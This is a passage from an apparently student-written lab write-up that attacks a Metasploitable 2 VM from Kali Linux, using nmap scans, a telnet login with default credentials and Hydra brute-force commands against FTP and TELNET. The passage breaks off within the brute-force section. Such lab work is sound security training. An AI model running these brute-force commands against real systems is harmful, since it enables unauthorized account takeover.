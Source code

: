 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Requirement

- Kali Linux       (Attacker)
- Metasploitable 2 (Target machine)
- Wordlist          (rockyou.txt with "msfadmin")
- Nmap
- Hydra
---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](nmap-scan-open-port-on-target-machine.png)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](telnet-to-target-machine.png)
  > Here we got the username and password: ```msfadmin:msfadmin```. Bear in mind, we often do not get the credentials as easily as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH

#### ✅ Objective:
- Use Hydra perform brute force attacks against the following protocols:

#### 🔧 Steps Taken:  
- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](hydra-bruteforce-ftp.png)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](hydra-bruteforce-telnet.png)



